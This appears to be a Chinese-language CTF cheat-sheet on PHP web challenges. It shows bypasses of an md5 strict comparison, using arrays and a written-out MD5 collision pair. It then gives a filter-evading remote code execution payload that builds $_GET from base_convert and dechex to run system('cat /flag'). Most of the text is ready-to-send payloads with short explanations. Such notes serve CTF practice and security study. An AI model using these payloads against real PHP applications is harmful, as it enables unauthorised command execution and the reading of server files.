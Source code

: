

##### 强比较

```php
if($_POST['a']!==$_POST['b']&&md5($_POST['a'])===md5($_POST['b'])){
```

md5强比较，此时如果传入的两个参数不是字符串，而是数组，md5()函数无法解出其数值，而且不会报错，就会得到===强比较的值相等

```http
a[]=1&b[]=2
```

&符号绕过

```http
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2&
```

### 数学函数RCE

可用函数

```php
base_convert()	在任意进制之间转换数字。
bindec()				把二进制转换为十进制。
decbin()				把十进制转换为二进制。
dechex()        把十进制转换为十六进制。
decoct() 				把十进制转换为八进制。
hexdec()				把十六进制转换为十进制。
octdec()				把八进制转换为十进制。
```

因为`[]`被过滤所以使用`{}`

执行`system(cat /flag)` - 转变为 `{a}({b})&a=system&b=cat /flag`

这时候我们需要构造一个_GET参数

```php
php -r 'echo base_convert("hex2bin",36,10);'
37907361743

//得到了hex2bin函数
base_convert(37907361743,10,36)
```

有了hex2bin只有就简单了我们可以用现成的函数转

`base_convert(37907361743,10,36)(dechex(1598506324))`这就是_GET

```php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));
($$pi){pi}(($$pi){pow})&pi=system&pow=cat /flag
// $$pi => $_GET
// ($$pi){pi} => $_GET[pi]
// (($$pi){pow}) => $_GET[pow]

?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){pow})&pi=system&pow=cat /flag
// system('cat /flag')
```
